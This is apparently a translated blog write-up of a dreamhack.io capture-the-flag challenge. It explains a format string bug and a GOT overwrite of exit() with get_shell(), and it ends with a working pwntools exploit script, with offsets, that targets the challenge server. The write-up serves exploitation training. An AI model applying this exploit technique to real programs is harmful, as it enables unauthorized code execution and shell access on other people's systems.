




# dreamhack.io

> Originally published on [Naver Blog](https://blog.naver.com/chaeeunhur630/224284155554). Translated and reformatted in English.

basic_exploitation_002 c. This problem is FSB (Format String Bug) + GOT Overwrite problem! Let's see, let's look at the code first.

vulnerability

read(0, buf, 0x80);
printf(buf); // ← Here! Should have been printf("%s", buf) instead of printf(buf)

If you pass user input directly as a format string like printf(buf), memory read/write becomes possible through format directives such as %x, %p, and %n.

core structure

item

content

vulnerability

Format String Bug (printf(buf))

goal

Run get_shell() function

method

Overwrite the GOT address of exit() with the address of get_shell()

format indicator

Address leak with %p, write with %n

Exploit flow

1. Stack value leak with printf(buf) → identify address

2. Find exit@GOT address

3. exit@GOT with %n → overwrite with get_shell() address

4. When calling exit(0) → get_shell() is actually executed!

Wait here! Why are you aiming for exit GOT?

printf(buf); exit(0); // ← Call exit immediately after printf

Since there is no return and ends with exit(), if you change the GOT of exit to get_shell, you will automatically obtain a shell after printf!

Wait here! What is GOT!?

What is GOT?
Global Offset Table - This is a table that stores the actual addresses of external functions (libc, etc.).
Program calls exit()
 → Jump to the GOT[exit] address
 → Run to the address written there.
So, if you change the address written in GOT → you can intercept the function call!

** read(0, buf, 0x80); // bof does not work because buf size = 0x80.

Then here! How to do GOT overwrite

Using the %n format directive

What is %n?
cprintf("AAAA%n", &var);
// → Use the number of characters printed so far (4) in &var!
%n is a special directive that writes "the number of bytes printed so far" to memory.
Using this, you can write any value you want to any address!

This is how you find out the GOT address!

The get shell address is gdb!

Now, let’s find out the offset! Why do you need to know offset?

So, if you configure the payload like this:
[ exit@GOT address ] + [ %N$n ]
 ↑ Positioned in the 1st position ↑ Write in the 1st argument (exit@GOT)!
%1$n → Write to the address pointed to by the first value on the stack.
 = Write the get_shell address in exit@GOT!

For reference, you can find out like above! So the final code is:

from pwn import *

p = remote("host8.dreamhack.games", 23790)

exit_got = 0x0804a024
get_shell = 0x08048609

payload = p32(exit_got)
payload += p32(exit_got + 2)
payload += b"%34305c%1$hn"
payload += b"%33275c%2$hn"

p.send(payload)
p.sendline(b"cat flag") # Send command immediately as soon as the shell opens!
p.interactive()

Surprisingly, as soon as it was opened, TIME OUT kept popping up, so I just added p.sendline(b"cat flag"). There's an answer! exorcism!
